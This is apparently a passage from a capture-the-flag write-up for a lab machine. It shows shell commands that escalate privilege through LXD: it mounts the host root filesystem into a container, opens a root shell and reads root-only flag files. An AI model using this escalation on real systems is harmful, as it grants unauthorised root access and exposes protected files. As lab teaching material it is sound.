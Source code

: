 ```
loki@Mischief:~$ lxc config device add yolo mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to yolo
loki@Mischief:~$ lxc start yolo
loki@Mischief:~$ lxc exec yolo /bin/bash
root@yolo:~# cd /mnt/root/root
root@yolo:/mnt/root/root# ls
root.txt
root@yolo:/mnt/root/root# cat root.txt
The flag is not here, get a shell to find it!
```

Looks like the flag is hidden somewhere else...

Let's find it:

```
root@yolo:/mnt/root/root# find /mnt/root -name root.txt 2>/dev/null
/mnt/root/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/mnt/root/root/root.txt
```

There's another root.txt, let's see...

```
root@yolo:/mnt/root/root# cat /mnt/root/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae155f<redacted>
```

Game over!
